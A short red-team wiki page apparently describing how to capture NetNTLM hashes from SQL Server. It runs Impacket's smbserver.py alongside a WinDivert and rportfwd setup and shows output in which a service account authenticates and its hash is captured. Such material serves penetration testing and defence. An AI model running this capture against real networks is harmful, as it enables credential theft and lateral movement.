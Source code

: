 
## [[SQL NetNTLM Capture]]
You may also use the WinDivert + rportfwd combo (shown on the [[NTLM Relaying#Windows - Cobalt Strike]]) with Impacket's `smbserver.py` to capture the NetNTLM hashes.
```sh
python3 /usr/local/bin/smbserver.py -smb2support pwn .

Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (127.0.0.1,46894)
[-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
[*] AUTHENTICATE_MESSAGE (EDU\svc_mssql,SRV1)
[*] User SRV1\svc_mssql authenticated successfully
[*] svc_mssql::EDU:[...snip...]
[*] Connecting Share(1:pwn)
```


```meta
requirements: admin
results: 
category: 
oss: #py
source: https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py
description: 
```